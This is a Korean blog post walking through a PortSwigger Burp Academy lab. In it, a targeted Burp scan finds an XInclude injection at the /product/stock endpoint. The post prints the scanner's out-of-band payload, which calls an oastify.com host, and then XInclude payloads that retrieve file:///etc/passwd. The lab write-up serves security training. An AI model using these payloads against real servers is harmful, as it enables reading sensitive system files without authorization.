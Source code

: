 ```yaml
---
layout: post
title: "Burp Academy-DOM 관련 취약점: Discovering vulnerabilities quickly with targeted scanning"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Essential Skills]
toc: true
last_modified_at: 2024-12-10 09:33:00 +0900
---
```


# 개요
- 랩을 푸는데 있어서 필수적인 스킬을 배운다. 
- 문제 주소: https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-discovering-vulnerabilities-quickly-with-targeted-scanning
- 취약점 설명페이지: https://portswigger.net/web-security/essential-skills
- 난이도: PRACTITIONER (보통)


# 문제 개요
- 이 랩은 서버의 임의의 파일을 읽을 수 있는 취약점을 포함하고 있다. 
- 랩을 풀러면 /etc/passwd의 컨텐츠를 10분 이내에 얻어내라. 
- 시간제한이 있으므로 Burp Scanner 를 사용하는 것을 추천한다. 사이트 전체를 스캔하는 것은 시간이 걸리므로, 당신의 직관을 사용해서 취약한 엔드포인트를 식별하고, 그 엔드포인트에 대해 특정 요청을 보낸다. Burp가 공격가능한 취약점(attack vector)을 찾아주면, 스스로 exploit할 수 있는 방법을 찾으라. 

```
This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of /etc/passwd within 10 minutes.

Due to the tight time limit, we recommend using Burp Scanner to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a targeted scan on a specific request. Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it.
```

# 풀이
1. 랩을 살펴보니 `POST /product/stock` 엔드포인트가 있었다. 의심스러우므로 여기를 대상으로 모든 체크를 돌려봤다. HTTP 요청 탭에서 마우스 오른쪽 버튼을 누르고 스캔메뉴를 선택해서 스캔을 실시한다. 

2. 결과는 다음과 같았다. `Out-of-band resource load(HTTP)` 취약점을 발견해주었다. 

![](/images/burp-academy-essential-1-3.png)

페이로드를 디코딩해보면 다음과 같다. href에 지정된 URL로 접속이 발생했다는 지적이다. 

```xml
<hmi xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://kaysdz7n2jb6pw6it6gwlgdolfr9fz30rsei27.oastify.com/foo"/></hmi>
```

3. 페이로드를 다음과 같이 변경해본다. XXE 인젝션 랩에서 몇번 사용했었다. 

```xml
<hmi xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="file:///etc/passwd"/></hmi>
```

4. 그런데 테스트해보면  다음과 같이 `Content is not allowed in prolog` 라는 에러를 돌려준다. 구글링해보면 XML을 import/export 할 때 인코딩이 맞지 않을 때 발생하는 에러라는 것을 알 수 있다. 

![](/images/burp-academy-essential-1-1.png)


5. 페이로드의 inlcude 부분에 parse="text" 를 추가한다. 이러헥 하면 XML이 아니라 text로 인식하는 것 같다. 이렇게 하면 /etc/passwd 파일의 내용을 돌려준다. 

```xml
<hmi xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></hmi>
```

![](/images/burp-academy-essential-1-2.png)

6. 랩이 풀렸다. 

![](/images/burp-academy-essential-1-success.png)


# 정리
이번 랩에는 10분이라는 시간제한이 있었다. 시간 내에 풀기 위해서는 취약해 보이는 엔드포인트를 골라서 이 엔드포인트에만 스캔을 실시할 필요가 있었다. 이 테크닉은 앞으로도 자주 쓰이므로 확실히 기억해두자. 